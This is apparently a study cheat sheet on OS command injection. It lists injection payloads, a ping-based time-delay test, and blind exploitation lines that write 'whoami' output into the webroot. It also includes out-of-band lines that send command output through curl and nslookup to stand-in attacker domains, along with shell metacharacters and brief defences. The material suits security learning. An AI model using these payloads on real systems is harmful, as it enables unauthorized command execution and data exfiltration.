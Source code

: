 # OS command injection

### Command injection

* `& echo qwerty &`
  * Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point

### Blind OS command

* #### Detection
  * `& ping -c 10 127.0.0.1 &`
    * 10 sec... time delay
* #### Exploit
  1.
     * Redirecting output -> (you must have write permission)
     * `& whoami > /var/www/static/whoami.txt &`
     * `curl https://website.com/whoami.txt`
  2.
     * Out-of-band techniques
     * ``& curl `whoami`.webserver-attacker.com &`` (HTTP traffic may be blocked)
     * ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``

### Bypass restriction

* There are so many ways ...
  * https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

### Metacharacters

* Windows & Unix
  * &
  * &&
  * |
  * ||
* Unix
  * ;
* Unix inline execution
  * \`command\`
  * $(command)

### Defences

* Whitelist of permitted values
* Validating that the input is a number
* Validating that the input contains only alphanumeric characters, no other syntax or whitespace
* Never attempt to sanitize input by escaping shell metacharacters
